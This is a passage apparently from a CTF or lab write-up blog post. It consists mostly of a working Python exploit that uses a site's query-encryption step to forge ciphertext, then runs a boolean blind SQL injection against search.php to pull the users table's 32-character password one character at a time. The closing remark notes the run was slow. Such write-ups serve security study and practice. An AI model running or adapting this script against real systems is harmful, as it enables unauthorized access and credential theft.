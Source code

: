   # print query for reference
  print('{' + f_query + '}')

  # send query to site for encryption
  payload = {'query': f_query}
  r = requests.post(target + '/index.php', data=payload, headers=headers, allow_redirects=False)
  # print(r.headers)

  # format the response to only keep our modified query
  mod_r = urldecode(r.headers['Location'])
  mod_r = mod_r.split('query=')
  bin_data = binascii.a2b_base64(mod_r[1] + '===')
  bin_data = binascii.hexlify(bin_data)
  bin_data = bin_data[96:]
  bin_data = binascii.unhexlify(bin_data)
  bin_data = binascii.b2a_base64(bin_data, newline=False)
  print("Binary Data String: " + str(bin_data, 'utf-8'))

  # send the modified query to the search site
  payload = {'query': bin_data}
  response = requests.get(target + '/search.php?', params=payload, headers=headers, allow_redirects=False)
  print(response.text)
  return response


# Checking if we can connect to the target, just in case...
r = requests.get(target, headers=headers)
if r.status_code != requests.codes.ok:
  raise ValueError('Couldn\'t connect to target :(')
else:
  print('Target reachable. Starting character parsing...')

# Password is 32 characters long
start_time = time.time()
for i in range(1,33):
  for c in allChars:
    print("Trying Character: " + c)
    print("Password so far: " + password)
    resp = send_query('select * from jokes where ascii(substring((select password from users) from %d for 1))=%d #' % (i, ord(c)))
    if 'Halloween' in resp.text:
      password += c
      break

print('Password: ' + password)
print("--- %s seconds ---" % (time.time() - start_time))
{% endhighlight %}

It took a while on my VM though:

<img class="alignnone size-full wp-image-333" src="/assets/img/2019/09/2019-09-26_14h14_56.png" />